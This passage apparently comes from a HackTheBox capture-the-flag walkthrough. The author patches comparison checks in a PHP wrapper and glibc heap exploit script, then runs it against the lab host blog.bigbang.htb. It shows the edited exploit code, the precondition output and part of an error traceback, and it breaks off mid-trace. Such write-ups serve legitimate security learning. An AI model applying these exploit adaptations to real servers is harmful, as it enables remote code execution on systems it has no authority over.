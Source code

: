 ```

        #if text not in result:
        if not text.startswith(result):
            msg_failure("Remote.download did not return the test string")
            print("--------------------")
            print(f"Expected test string: {text}")
            print(f"Got: {result}")
            print("--------------------")
            failure("If your code works fine, it means that the [i]data://[/] wrapper does not work")

```

There’s a `check_token` function just a few lines above that one, which needs updating as well:

```

        def check_token(text: str, path: str) -> bool:
            result = safe_download(path)
            #return text.encode() == result
            return text.encode().startswith(result)

```

Now, there’s another very long error:

```

oxdf@hacky$ uv run exploit.py http://blog.bigbang.htb id
[*] The data:// wrapper works
[*] The php://filter/ wrapper works
[*] The zlib extension is enabled
[+] Exploit preconditions are satisfied
[*] Potential heaps: 0x7f1d73600040, 0x7f1d73400040, 0x7f1d73000040, 0x7f1d71c00040, 0x7f1d6f800040, 0x7f1d6f000040, 0x7f1d6e400040, 0x7f1d6de00040, 0x7f1d6da00040 (using first)
[x] ELFParseError expected 8, found 2
...[snip]...
│ /media/sf_CTFs/hackthebox/bigbang-10.10.11.52/exploit.py:242 in run                              │
│                                                                                                  │
│   239 │                                                                                          │
│   240 │   def run(self) -> None:                                                                 │
│   241 │   │   self.check_vulnerable()                                                            │
│ ❱ 242 │   │   self.get_symbols_and_addresses()                                                   │
│   243 │   │   self.exploit()                                                                     │
│   244 │                                                                                          │
│   245 │   def build_exploit_path(self) -> str:                                                   │
│                                                                                                  │
│ /media/sf_CTFs/hackthebox/bigbang-10.10.11.52/exploit.py:197 in get_symbols_and_addresses        │
│                                                                                                  │
│   194 │   │                                                                                      │
│   195 │   │   self.download_file(libc.path, LIBC_FILE)                                           │
```